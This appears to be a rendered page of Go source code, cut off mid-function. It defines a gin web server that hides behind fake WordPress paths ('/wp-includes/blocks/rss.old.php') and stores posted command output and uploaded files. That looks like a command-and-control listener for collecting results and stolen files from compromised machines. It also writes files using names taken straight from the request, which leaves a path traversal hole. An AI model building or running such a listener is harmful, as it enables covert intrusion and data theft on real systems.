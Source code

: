 -   main.go

```plain
package main

import (
    "awesomeProject3/common"
    "github.com/gin-gonic/gin"
    "os"
)

func main() {
    init_tasks()

    r := gin.Default()
    // 设置GIN模式为release模式
    gin.SetMode(gin.ReleaseMode)
    r.GET("/", common.HandleRoot)
    r.POST("/wp-includes/blocks/rss.old.php", common.Handle_POST)
    r.POST("/wordpress/wp-includes/rss.old.php", common.Handle_POST)
    r.Run(":80")
}

func init_tasks() {
    os.Remove("./conf/tmp.txt")
    common.WriteFile("./conf/tmp.txt", "0")
}
```

-   common.go

```plain
package common

import (
    "bufio"
    "fmt"
    "github.com/gin-gonic/gin"
    "io"
    "io/ioutil"
    "os"
    "strconv"
)

func HandleRoot(c *gin.Context) {
    c.String(200, "Hello, World!")
}

func Handle_POST(c *gin.Context) {
    str_id := c.PostForm("id")
    str_result := c.PostForm("result")
    file, header, _ := c.Request.FormFile("file")
    fmt.Println(str_id, str_result)
    if str_result != "" {
        WriteFile_A("./conf/"+str_id+".txt", "**********output********\r\n"+str_result+"\r\n")
        c.String(200, "rsp:")
    } else if header != nil {
        defer file.Close()
        // 创建一个新文件
        out, _ := os.Create("./conf/post_" + header.Filename)
        defer out.Close()
        // 将上传的文件内容拷贝到新文件中
        _, _ = io.Copy(out, file)
        c.String(200, "rsp:")
    } else if str_result == "" {
```